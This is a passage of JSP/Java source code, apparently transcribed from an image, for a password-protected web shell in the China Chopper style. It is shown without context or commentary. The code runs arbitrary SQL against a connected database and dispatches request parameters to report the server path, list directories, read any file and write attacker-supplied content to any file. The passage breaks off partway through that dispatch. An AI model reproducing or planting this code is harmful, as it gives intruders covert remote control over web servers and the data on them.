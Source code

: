 ```
        Connection c = GC(s);
        Statement m = c.createStatement(1005, 1008);
        try {
            ResultSet r = m.executeQuery(q);
            ResultSetMetaData d = r.getMetaData();
            int n = d.getColumnCount();
            for (i = 1; i <= n; i++) {
                sb.append(d.getColumnName(i) + "\t|\t");
            }
            sb.append("\r\n");
            while (r.next()) {
                for (i = 1; i <= n; i++) {
                    sb.append(EC(r.getString(i), cs) + "\t|\t");
                }
                sb.append("\r\n");
            }
            r.close();
        } catch (Exception e) {
            sb.append("Result\t|\t\r\n");
            try {
                m.executeUpdate(q);
                sb.append("Execute Successfully!\t|\t\r\n");
            } catch (Exception ee) {
                sb.append(ee.toString() + "\t|\t\r\n");
            }
        }
        m.close();
        c.close();
    }%>    
<%
    String cs = request.getParameter("z0")==null?"gbk": request.getParameter("z0") + "";
    request.setCharacterEncoding(cs);
    response.setContentType("text/html;charset=" + cs);
    String Z = EC(request.getParameter(Pwd) + "", cs);
    String z1 = EC(request.getParameter("z1") + "", cs);
    String z2 = EC(request.getParameter("z2") + "", cs);
    StringBuffer sb = new StringBuffer("");
    try {
        sb.append("->" + "|");
        if (Z.equals("A")) {
            String s = new File(application.getRealPath(request
                    .getRequestURI())).getParent();
            sb.append(s + "\t");
            if (!s.substring(0, 1).equals("/")) {
                AA(sb);
            }
        } else if (Z.equals("B")) {
            BB(z1, sb);
        } else if (Z.equals("C")) {
            String l = "";
            BufferedReader br = new BufferedReader(
                    new InputStreamReader(new FileInputStream(new File(
                            z1))));
            while ((l = br.readLine()) != null) {
                sb.append(l + "\r\n");
            }
            br.close();
        } else if (Z.equals("D")) {
            BufferedWriter bw = new BufferedWriter(
                    new OutputStreamWriter(new FileOutputStream(
                            new File(z1))));
            bw.write(z2);
            bw.close();
```